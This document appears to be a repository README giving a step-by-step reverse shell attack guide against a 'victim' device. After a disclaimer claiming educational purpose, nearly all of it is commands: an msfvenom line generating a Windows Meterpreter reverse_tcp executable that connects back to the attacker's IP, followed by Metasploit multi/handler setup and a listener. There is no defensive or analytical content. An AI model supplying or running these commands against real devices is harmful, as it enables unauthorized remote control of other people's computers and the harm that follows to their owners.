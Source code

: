 # How to do a reverse shell attack

Write-up of how to do a reverse shell attack to any type of device, but Apple devices.

**¡¡DISCLAIMER:** <br /><br />
		**I'm doing this for educational purposes only.**<br />
		**I'm not responsible of any illegal or harmful uses of this file.**<br />
		**The bad use of this Write-up may cause any type of damage to the victim!!**<br />
  		**Use this file responsibly, otherwise you can get in trouble**<br />

Before starting, we need to get our victim's IP to do this type of attack
1. **Check if the victim's IP is up.**
	```
	ping [IP]
 	```

3. **Create a folder with a basic name and get into that folder.**
	```
	mkdir [folder-name] && cd [folder-name]
	```


5. **On the folder created previously execute the command below:**
	```
 	msfvenom -p windows/meterpreter/reverse_tcp LHOST=[YOUR-IP] LPORT=5555 -f exe > path/to/the/folder/of/step/2/[name].exe
	```


7. **Open metasploit and execute this command:** 
	```
	use exploit/multi/handler
 	```


9. **Once executed the previous command, set-up the payload, in this case meterpreter -- reverse_tcp, for that execute the command below:**
	```
 	set payload windows/meterpreter/reverse_tcp
	```


11. **When the command before get executed, introduce the necessary data to create the reverse shell connection, in this case these are the commands:**
	```
 	set LHOST (YOUR IP)
	set LPORT 5555
 	```


13. **Finally, execute the command below to start listening to possible reverse  shell connections.**
	```
	exploit
 	```

